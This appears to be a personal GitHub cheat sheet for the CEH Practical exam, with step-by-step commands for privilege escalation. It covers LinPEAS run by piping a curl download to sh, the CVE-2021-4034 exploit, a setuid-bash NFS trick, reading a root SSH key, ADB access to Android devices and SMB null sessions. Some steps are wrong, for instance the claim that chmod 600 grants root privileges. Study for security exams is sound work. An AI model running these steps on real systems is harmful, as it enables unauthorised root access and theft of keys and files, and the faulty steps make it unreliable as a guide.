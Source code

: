 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes

Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
Use LinPeas
1.	login to the ubuntu machine using the credentials given
2.	go to google and type linpeas, go to the github depository and download linpeas.sh (found on the release page) or use the command given 
3.	go to download. Cd Downloads/ then ls to view contents
4.	chmod +x linpeas to be  executable then ls
5.	run the executable by using attacke-1:~/Downloads$ ./linpeas.sh
6.	The other one is you can use curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh, found on github as well
7.	search for CVE-2021-4034 on mozilla the Cd Downloads/
8.	git clone https://github.com/arthepsy/CVE-2021-4034.git
9.	cd CVE-2021-4034
10.	type command "make"
11.	then type "./exploit" boom we are root
12. Alternative2: you can copy the cve-2021-4034-poc.c from Downlods to /tmp then CD /tmp
13. to compile you can use gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
14. then ./cve-2021-4034-poc and press enter you should be root.

Priviledge Escalation 2
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
	1. Access to target using SSH
	2. ./bash -p and we're root!
	3. cd /home
	4. ls -la
	5. Find the flag: find / -name "*.txt" -ls 2> /dev/null



**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

Vertical Privilege escalation 
1. ssh smith@Ip –p 1337
2. sudo -L to check on users
3. cd /root then ls to see the .txt file, try to cat the file but permission is denied
4. then find the .ssh file 
5. then you cat id_rsa file key. Copy the key from beginning to end then nano id_rsa and paste the key
6. chmod 600 id_rsa  this give it root privileges 
7. as you are logged ,ssh root@ipaddrr –p 1336 –I id_rsa then you will have performed a vertical privilege escalation 

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>



